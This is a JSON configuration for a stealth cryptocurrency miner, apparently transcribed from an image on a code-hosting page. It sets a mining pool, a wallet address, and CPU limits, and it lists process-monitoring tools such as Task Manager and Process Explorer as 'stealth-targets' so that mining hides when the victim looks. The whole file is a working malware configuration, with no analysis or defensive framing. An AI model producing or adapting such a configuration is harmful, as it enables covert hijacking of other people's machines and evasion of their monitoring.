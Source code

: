 {
    "algo": "rx/0",
    "pool": "pool.hashvault.pro",
    "port": 443,
    "wallet": "422dPqVCt5VD9CgG9RyTdx7aVbHfGQaq8BtjfQX9W4wGTnHyQPWK7iken36awHudUyFK12P45SzJCZ6eeKsz3n8y8tEaxou",
    "password": "lib",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 30,
    "idle-wait": 5,
    "idle-cpu": 90,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}

